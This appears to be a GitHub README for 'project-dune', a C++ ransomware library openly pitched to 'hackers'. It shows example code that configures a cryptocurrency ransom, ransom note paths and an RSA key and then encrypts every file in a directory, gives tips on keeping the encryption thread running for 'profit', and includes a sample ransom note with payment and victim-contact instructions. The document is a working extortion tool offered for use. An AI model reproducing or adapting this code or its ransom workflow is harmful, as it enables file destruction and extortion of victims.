 # project-dune
An customizable ransomware for hackers. 
## Usage

Example integration
```cpp
#include <iostream>
#include <vector>
#include <string>
#include <chrono>
#include "inc/dune.hpp"

int main(int argc, char *argv[])
{
    std::vector<std::string> notes;
    notes.push_back("./ransom.txt");
    notes.push_back("/ransom.txt");
    std::string public_key = "-----BEGIN PUBLIC KEY-----\n"
                             "MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQC3LhafKJnVq/xa/1d40hcETsyG\n"
                             "CLSxlhXfJWERLPY14Di6EyKZj+e7+IpZF489pxnDEode2UaN/Mq0/hCy8epOrfx1\n"
                             "0BKGlxY72fPDt9MvThCs6DokeK4cIzcMEKQv4RNBF8q3winAM1SGnxLu7RWx2npF\n"
                             "ND8Xa8c7d8il4AjK5QIDAQAB\n"
                             "-----END PUBLIC KEY-----\n";
    std::vector<std::string> exempt_files = std::vector<std::string>();
    exempt_files.push_back("0ef71b11630f2ffb4e796e7923300d67a763eaca");
    exempt_files.push_back("c9831e93135c07e60e86d0cea63a878cb512764f");

    dune::Dune dune = dune::Dune(2.0, "XMR", "your address here", "You have been pwned!", notes, "tech@anon.gov", public_key, exempt_files);
    dune::Acknowledgement ack;
    ack.are_you_sure_you_want_to_do_this = true;
    ack.i_accept_the_risks_and_consequences_of_my_actions = true;
    ack.i_understand_it_is_illegel = true;
    dune.attack(ack, "./");
    printf("All done\n");
    return 0;
}
```

The Dune ransomware class contains two essential methods. The attack method and the constructor. The constructor accepts several required arguments to tell the malware how to behave (Ex: what crypto address to demand). The most critical parameter is the PEM formatted RSA key. The RSA public key must be valid, or behavior is not guaranteed. The class requires a string vector containing absolute or relative file paths to be supplied to create many ransom notes. The more, the better. The class also takes an argument specifying the amount and type of cryptocurrency to be ransomed. It also accepts a message to include in the ransom file and can be left as an empty string. Also, there is an email parameter so the victim can contact the ransomer.

## Notes
The attack method creates a thread to encrypt all files in the background. Since this could take a while, you must create a while loop to wait until verify_done returns `true`. Remember to sleep between calls to it, or it will slow the encryption. It would be best if you did this to keep the thread alive, or encryption will likely result in corrupt files and no profit.

Example:
```cpp
dune.attack(ack, true);

while (!dune.verify_done()) {
    std::this_thread::sleep_for(std::chrono::milliseconds(5000));
}
```

This is an example Dune ransonware note file:
```
Message from hacker: You have been pwned!

You must pay in this type of cryptocurrency XMR.
The ransom amount is 2.000000 XMR.
The address to pay is: 

your address here

This address is specific to this attack. If you have multiple attacks pending paying another address will not help you regain your files. The full amount or more must be paid to the XMR address specified.
DO NOT MODIFY THIS, OR ALL YOUR FILES WILL BE LOST (It is the RSA encrypted key for decryption)

jdnXNse+wTWGPQAec/5oLR/albnGS5f6QiOxpvY15CaEJgB7RsYf7oV/y1BclATw5MtElCZmN+mQFs0KaYGr+/KF6xDzGgfB0bpCax9HzVyBl0uGpOIElaZgUI1R2KkNm80ggX7bSH6+c23BiGUTGTac2BCpvSDfe6KVVWoZkZ4=

Send this whole file to this email address AFTER you have paid the ransom: tech@anon.gov

If you contact this email before the ransom is paid in full it will likely be increased.


This is your victim id: 4a357c9d-3868-4b84-afb0-26661ac9f2e6.
```

Enjoy the easy integration.
